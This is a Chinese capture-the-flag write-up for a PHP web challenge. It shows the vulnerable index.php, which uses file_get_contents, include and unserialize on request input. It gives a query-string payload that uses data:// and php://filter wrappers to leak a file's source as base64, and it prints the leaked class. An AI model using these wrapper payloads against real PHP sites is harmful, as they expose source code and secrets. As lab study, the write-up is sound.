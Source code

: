 ==php://input和data://常在CTF里用来绕过一些判断语句;、file_get_contents()==

**总结：**

data://　　　　写入数据

php://input　　执行php

　　//filter　　查看源码



解题：index.php源码：

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){  //伪协议绕过
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php   通过伪协议filter读取文件源码
        $password = unserialize($password);  //反序列化触发wake_up，这里并不是这个考点
        echo $password;   //echo对象会触发tostring
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

用data://绕过file_get_contents，php://filter绕过include读取文件base64源码

```
?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php&password=2
```

读到useless.php源码：

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){   //如果对象被当作字符串echo会触发这个方法
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```
